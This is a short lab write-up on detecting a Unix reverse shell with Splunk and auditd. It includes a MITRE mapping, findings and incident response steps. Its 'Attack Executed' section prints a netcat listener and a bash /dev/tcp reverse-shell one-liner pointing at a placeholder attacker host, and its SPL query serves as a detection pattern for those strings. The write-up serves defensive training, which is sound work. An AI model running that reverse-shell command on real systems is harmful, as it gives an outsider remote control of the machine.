

# Scenario 03: Reverse Shell Detection

**Date:** 2026-03-17
**MITRE ATT&CK:** T1059.004 — Command and Scripting Interpreter: Unix Shell
**Severity:** Critical

## Lab Setup
- Attacker: Kali Linux (ATTACKER_IP)
- Victim: Ubuntu Server (VICTIM_IP)
- SIEM: Splunk Enterprise (Free)

## Attack Executed
```bash
# Step 1: Set up listener on Kali
nc -lvnp 4444

# Step 2: Execute on victim machine
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

## Detection SPL Query
```splunk
index=main sourcetype=linux_audit
| search "dev/tcp" OR "bash -i" OR "/bin/bash"
| table _time, host, comm, exe, cmd
| sort -_time
```

## Findings
- 11 events detected in Splunk
- sourcetype: linux_audit
- Reverse shell connection established successfully
- Auditd captured the malicious bash execution

## MITRE ATT&CK Mapping
- Tactic: Execution
- Technique: T1059.004 — Unix Shell

## Screenshot


## Response Steps
1. Immediately isolate affected machine from network
2. Kill the reverse shell process
3. Check for persistence — new users, cron jobs, SSH keys
4. Investigate initial access vector
5. Review all commands executed during shell session
